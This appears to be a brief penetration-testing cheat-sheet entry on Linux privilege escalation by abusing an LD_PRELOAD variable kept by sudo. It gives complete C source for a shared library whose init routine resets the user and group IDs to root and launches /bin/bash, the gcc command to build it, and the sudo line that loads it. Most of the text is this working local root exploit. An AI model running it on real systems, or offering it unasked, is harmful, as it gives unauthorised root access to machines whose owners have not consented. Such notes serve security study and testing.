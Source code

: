 if LD_PRELOAD is an environment variable (`sudo -l`), allowing any program to use a shared library
*LD_PRELOAD option will be ignored if real user ID is different from effective user ID.* 
Creates a c program in the shared library that opens a root shell

	#include <stdio.h>  
	#include <sys/types.h>  
	#include <stdlib.h>  
	
	void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/bash");  
	}

compile to the shared library with: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
then run sudo-able program with `sudo LD_PRELOAD=PATH/shell.so COMMAND` 